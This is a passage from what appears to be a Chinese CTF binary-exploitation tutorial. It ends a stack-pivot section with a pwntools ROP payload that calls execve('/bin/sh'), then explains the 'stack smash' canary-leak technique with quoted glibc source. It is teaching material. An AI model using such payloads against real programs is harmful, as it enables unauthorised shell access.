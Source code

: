 ```python
payload=flat(['22222222', pop_rdi_ret, next(libc.search("/bin/sh")),pop_rdx_pop_rsi_ret,p64(0),p64(0), libc.sym['execve'], (80 - 7*8 ) * '2', stack - 0x30, 0x4006be])

io.sendafter(">", payload)

io.interactive()
```

总的来说这种方法跟 stack pivot 差别并不是很大。

### 参考阅读

- [http://www.xfocus.net/articles/200602/851.html](http://www.xfocus.net/articles/200602/851.html)
- [http://phrack.org/issues/58/4.html](http://phrack.org/issues/58/4.html)

## Stack smash

### 原理


在程序加了canary 保护之后，如果我们读取的 buffer 覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。而 stack smash 技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序启动 canary 保护之后，如果发现 canary 被修改的话，程序就会执行 `__stack_chk_fail` 函数来打印 argv[0] 指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下

```C
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

所以说如果我们利用栈溢出覆盖 argv[0] 为我们想要输出的字符串的地址，那么在 `__fortify_fail` 函数中就会输出我们想要的信息。



> 批注： 这个方法在 glibc-2.31 之后不可用了, 具体看这个部分代码 [fortify_fail.c](https://elixir.bootlin.com/glibc/glibc-2.31/source/debug/fortify_fail.c) 。

```c
#include <stdio.h>

void
__attribute__ ((noreturn))
__fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (do_abort, "*** %s ***: terminated\n", msg);
}
libc_hidden_def (__fortify_fail)
```
